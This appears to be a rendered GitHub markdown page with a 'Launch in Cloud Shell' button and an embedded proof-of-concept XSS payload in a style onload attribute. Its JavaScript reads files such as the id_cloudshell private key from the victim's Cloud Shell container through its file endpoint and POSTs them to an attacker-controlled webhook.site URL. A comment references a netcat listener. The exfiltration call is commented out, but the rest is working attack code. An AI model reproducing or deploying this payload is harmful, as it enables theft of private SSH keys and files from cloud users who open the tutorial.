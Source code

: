 

[![Launch in Cloud Shell](https://gstatic.com/cloudssh/images/open-btn.svg)](https://console.cloud.google.com?cloudshell_git_repo%3Dhttps%3A%2F%2Fgithub.com%2Fmagnetic-ferret%2Fta%26cloudshell_tutorial%3Dtest2.md)

 

----

<style onload="{   
    var file_results = []  
    // this scape the container and get the ssh id_cloudshell private key         
    setTimeout(function(){ 
        // send_files(file_results)    
    },5000)  
 
    // function to read any file given the path with file protocol per example 'file:///etc/hostname'
    function read_file(file_to_read){
        var container_url = 'https://' + location.host + '/files/?uri='
        var get_file_id_url = container_url + file_to_read
        console.log(get_file_id_url) 
        fetch(get_file_id_url) // convert response to json 
            .then(response => { return response.json() } )
            .then(json => {
                var container_download_url = 'https://' + location.host + '/files/download/?id='
                var download_url = container_download_url + json.id
                fetch(download_url) 
                    .then(response => { return response.text() } )
                    .then(text => { 
                        console.log(file_to_read + ' '+ text)
                        file_results.push(file_to_read + ' '+ text)  
                    })
            })  
    }
 
    function send_files(result){ 
         // need to set netcat to listen per example nc -lvvv 55555
         let attacker_server =  '  https://webhook.site/8714cbf4-0235-49e8-9ecb-6cc153712f85'
         fetch(attacker_server, {
                method: 'post',
                body: JSON.stringify(result)
         })
    }
 
}"> 
  
 
